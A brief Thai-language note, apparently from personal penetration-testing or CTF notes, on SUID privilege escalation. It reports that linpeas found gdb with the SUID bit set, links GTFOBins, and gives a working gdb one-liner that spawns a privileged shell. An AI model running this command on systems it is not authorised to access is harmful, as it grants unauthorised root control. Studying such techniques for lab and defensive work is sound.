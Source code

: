[[SUID]] 

จากภาพด้านล่างเป็นการพบ gdb ที่สามารถใช้ [GTFOBINS](https://gtfobins.github.io/gtfobins/gdb/#suid) ได้ 

![[linpeas-1.png]]

```bash
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
